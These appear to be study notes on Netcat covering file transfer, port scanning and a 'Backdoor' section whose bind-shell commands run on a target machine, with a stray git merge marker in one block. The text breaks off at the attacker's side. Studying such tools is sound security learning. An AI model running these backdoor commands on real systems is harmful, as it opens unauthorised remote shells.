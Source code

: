 ### Netcat and its friends

- Ncat: a part of nmap project, supports TLS for client and server
- Data:
    - STDIN: send through connection
    - STDOUT: data received through connection
    - STDERR: message from Netcat itself
- Use case:
    1. Data transfer (moving files)
    2. Port scanning
    3. Making connections to open ports
    4. Backdoors
    5. Relays
- Supported Protocols:
    - TCP
    - UDP 

#### File Transfer: Server --> Client

```>>>>>>> origin/master
$ nc -l -p <PORT> < <FILE>  (SERVER)
$ nc <IPADDR> <PORT> > <FILE> (CLIENT)
```

- `-l`: listens **ONCE** on the port (i.e., does not try to listen again when connection is dropped)

#### File Transfer: Client --> Server

```
$ nc -l -p <PORT> > <FILE>  (SERVER)
$ nc <IPADDR> <PORT> < <FILE> (CLIENT)
```

#### Port Scanning

Complete 3 way handshake for TCP. Capable of UDP, but not realiable due to its nature. 

```
$ nc -p <SOURCE_PORT> -v -w3 -z <TARGET_IP> <START_PORT>-<END_PORT>
```

- `-p`: this is **source port**
- `-z`: minimal data sent
- `-v`: notify when connection is made (port scanning requires this capability)
- `-w3`: timeout is 3 seconds

#### Backdoor

On **TARGET** computer

```
$ nc -l -p <PORT> -e cmd.exe (Windows)
$ nc -l -p <PORT> -e /bin/sh (Linux)
```

On attacker's computer
